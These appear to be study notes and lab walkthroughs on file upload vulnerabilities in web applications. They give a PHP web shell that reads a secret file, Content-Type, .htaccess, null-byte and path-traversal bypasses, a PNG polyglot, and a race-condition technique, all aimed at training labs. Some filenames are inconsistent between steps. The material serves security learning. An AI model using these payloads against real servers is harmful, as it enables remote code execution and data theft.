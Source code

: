 # File Upload
The impact of file upload vulnerabilities generally depends on two key factors:
- Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
- What restrictions are imposed on the file once it has been successfully uploaded.

## File upload restrictions bypass
- **Flawed file type validation:** change `Content-Type` header
- **Preventing file execution in user-accessible directories:** find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all
- **Overriding the server configuration:** Apache servers, for example, will load a directory-specific configuration from a file called `.htaccess` if one is present. Use this `AddType application/x-httpd-php .pucavv` to execute `.pucavv` as `.php` file. Similarly, developers can make directory-specific configuration on IIS servers using a `web.config` file. This might include directives such as the following, which in this case allows JSON files to be served to users:
`<staticContent><mimeMap fileExtension=".json" mimeType="application/json"/></staticContent>`
- **Obfuscating file extensions:**
  - Provide multiple extensions: `exploit.php.jpg`
  - Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
  - Try using the URL encoding (or double URL encoding): `exploit%2Ephp`
  - Add semicolons or URL-encoded null byte characters before the file extension: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
  - Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization: `xC0 x2E`, `xC4 xAE` or `xC0 xAE`.
  - Using transformation against stripping or replacing defenses: `exploit.p.phphp`
- **Flawed validation of the file's contents:** change the signature of a file using tools like `hexedit` or `exiftool`.

### LAB: Remote code execution via web shell upload
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visits `/files/avatars/test.php` to see the result of the command.

### LAB: Web shell upload via Content-Type restriction bypass
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Intercept `POST /my-account/avatar` request and change the `Content-Type` to `image/jpeg`:

    ------WebKitFormBoundarySLv30wPSW47UnsOn
    Content-Disposition: form-data; name="avatar"; filename="test.php"
    Content-Type: image/jpeg

### LAB: Web shell upload via path traversal
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visit the avatar URL at `/files/avatar/exploit.php` and observe that the code is shown instead of the result of executed one.
Try to upload the `exploit.php` at different location by using path traversal by setting `filename:"../exploit.php"` and observe that the traversal part is stripped by the server:

    The file avatars/test.php has been uploaded.

This time use URL-encoding by setting: `filename:"..%2fexploit.php"` and notice the difference:

    The file avatars/../test.php has been uploaded.

Visit the avatar URL at `files/exploit.php` and retrieve the secret.

### LAB: Web shell upload via extension blacklist bypass
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visit the avatar URL at `/files/avatar/exploit.php` and observe that `.php` files are not allowed. But notice that the web server is Apache.
Upload this `.htaccess` file to make `.pucavv` files executable as `.php` files:

    AddType application/x-httpd-php .pucavv

Now resend the upload file request with the new filename set to "exploit.pucavv". Visit the avatar URL at `/files/avatar/exploit.php` and retrieve the secret.

### LAB: Web shell upload via obfuscated file extension
Notice that only `.jpeg` or `.png` files are allowed and the server only checks for the suffix to contain those extension.
Make use of null bytes and by setting `filename="exploit.php%00.png"`. This not only bypasses the check from the server but also makes it a valid `.php` file since everything after the null bytes are ignored.
Visit the avatar URL at `/files/avatar/exploit.php` and retrieve the secret.

### LAB: Remote code execution via polyglot web shell upload
The server checks for the signature of a file. Use `hexedit` to modify the header of `exploit.php` to contain the `png` signature:

    �PNG
    

    <?php echo file_get_contents('/home/carlos/secret') ?>

Successfully upload the file and visit the avatar URL to retrieve the secret.

### LAB: Web shell upload via race condition
Upload a normal JPG file and observe that we can access it via:

    GET /files/avatars/exploit.jpg HTTP/2

Upload the `exploit.php` file. Send that request to Repeater. Change the previous request to:

    GET /files/avatars/exploit.php HTTP/2

Group the 2 tabs into a group (might need to duplicate the second request several times). Now send the group in parallel. Notice in 1 of the `GET /files/avatars/exploit.php` request, there is a response with Carlos' secret. Submit it to solve the lab.
